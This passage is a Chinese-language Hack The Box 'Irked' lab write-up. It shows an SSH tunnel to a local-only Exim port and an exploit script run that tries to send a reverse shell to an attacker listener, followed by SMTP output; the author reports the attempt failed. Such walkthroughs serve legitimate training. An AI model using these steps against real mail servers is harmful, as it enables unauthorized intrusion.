 
由于端口仅在本地主机上侦听，因此我将创建一个 ssh 隧道：

    root@kali# ssh djmardov@10.10.10.117 -L 25:localhost:25
    

现在，我可以在我的盒子上与本地主机端口25进行通信，它将到达Irked上的本地主机25。

我将启动一个侦听器，并运行一下：`nc`

    root@kali# python exim_exp.py 10.10.14.14 443 127.0.0.1
    check vuln
    220 irked ESMTP Exim 4.84_2 Thu, 04 Apr 2019 09:53:42 -0400
    250-irked Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA ...
    250-SIZE 52428800
    250-8BITMIME
    250-PIPELINING
    250 HELP
    250-irked Hello BBBBBBBBBBBBBBBB [::1]
    250-SIZE 52428800
    250-8BITMIME
    250-PIPELINING
    250 HELP
    500 unrecognized command
    250-irked Hello DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDD ...
    250-SIZE 52428800
    250-8BITMIME
    250-PIPELINING
    250 HELP
    NO AUTH PLAIN CONFIG
    false
    

不幸的是，沉默了。如果有人想弄清楚如何让它工作或为什么它不起作用，我很乐意听到它！`nc`

[查看原网页: 0xdf.gitlab.io](https://0xdf.gitlab.io/2019/04/27/htb-irked.html)